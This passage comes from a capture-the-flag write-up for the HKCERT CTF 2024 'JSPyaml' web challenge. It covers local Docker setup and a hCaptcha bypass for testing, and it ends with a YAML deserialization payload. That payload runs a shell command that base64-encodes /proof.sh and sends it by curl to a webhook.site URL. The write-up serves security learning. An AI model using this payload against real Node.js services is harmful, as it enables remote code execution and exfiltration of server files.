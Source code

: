 To test this locally, we can spin up the Docker container via `docker compose`.

But before we do that, we'll need to modify the POST `/report` route to the following. This is because we don't want the hCaptcha to get in our way.

```javascript
app.post('/report', async (req, res) => {
    const url = req.body.url;
    browse(url);
});
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml)-[2024.11.17|20:12:44(HKT)]
└> docker compose up                                                    
[...]
[+] Running 2/2
 ✔ Network jspyaml_default      Created                                                                0.1s 
 ✔ Container jspyaml-jspyaml-1  Created                                                                0.0s 
Attaching to jspyaml-1
jspyaml-1  | Server is running at http://localhost:3000
```

> Note: Due to some unknown reasons, Docker command `RUN npm install` takes a very long time to finish the execution. To "skip" it, we can install all the libraries, then copy directory `node_modules` to Docker container's path `/app/node_modules/`.
>  
> ```shell
> ┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml)-[2024.11.17|20:15:44(HKT)]
> └> cd web 
> ┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml/web)-[2024.11.17|20:15:46(HKT)]
> └> npm install    
> [...]
> ```
> 
> Then modify `web/Dockerfile` with the following:
> ```bash
> [...]
> # RUN npm install
> COPY node_modules/ /app/node_modules/
> RUN chmod 555 -R /app/
> [...]
> ```
> 
> Finally run `docker compose up` again.

- Preparing **server-side** YAML deserialization payload

```yaml
"toString": !<tag:yaml.org,2002:js/function> "function (){console.log(process.mainModule.require('child_process').execSync('cat /proof.sh | base64 -w0 | curl -d @- https://webhook.site/1ded601d-f3f1-40eb-a99c-ab9746346425').toString())}"
```
